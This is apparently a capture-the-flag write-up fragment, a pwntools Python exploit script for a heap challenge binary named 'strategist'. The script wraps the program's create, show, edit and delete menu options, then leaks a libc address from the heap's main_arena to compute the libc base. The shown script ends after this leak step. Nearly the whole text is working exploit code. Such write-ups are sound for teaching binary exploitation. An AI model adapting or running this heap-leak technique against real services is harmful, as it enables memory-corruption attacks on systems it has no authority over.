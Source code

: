 

### Full exploit
---
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("strategist")
libc = ELF("glibc/libc.so.6")
ld = ELF("glibc/ld-linux-x86-64.so.2")

context.binary = exe
#context.log_level = "debug"

global r
def conn():
    global r
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], "b *main+61")
    else:
        r = remote("addr", 1337)

    return r

def create_plan(size: int, plan: bytes):
    r.sendlineafter(b"> ", b"1")
    info(f"Create plan of size {size}: {str(plan)}")
    r.sendlineafter(b"> ", str(size).encode())
    r.sendafter(b"> ", plan)

def show_plan(index: int):
    r.sendlineafter(b"> ", b"2")
    info(f"Show plan {index}")
    r.sendlineafter(b"> ", str(index).encode())
    r.recvuntil(str(index).encode() + b"]: ")
    return r.recvline(False)

def edit_plan(index: int, plan: bytes):
    r.sendlineafter(b"> ", b"3")
    info(f"Edit plan {index} to: {str(plan)}")
    r.sendlineafter(b"> ", str(index).encode())
    r.sendafter(b"> ", plan)

def delete_plan(index: int):
    r.sendlineafter(b"> ", b"4")
    info(f"Delete plan {index}")
    r.sendlineafter(b"> ", str(index).encode())

def main():
    conn()

    # Leak libc base
    create_plan(0x410, b'a')
    create_plan(8, b'b')
    delete_plan(0)
    delete_plan(1)
    create_plan(0x410, b'\xa0') # Use pwndbg to get this byte, it's always the same!
    leak = u64(show_plan(0).ljust(8, b"\x00"))
    libc.address = leak - libc.sym.main_arena - 96
    success(f'Libc base: {hex(libc.address)}')
```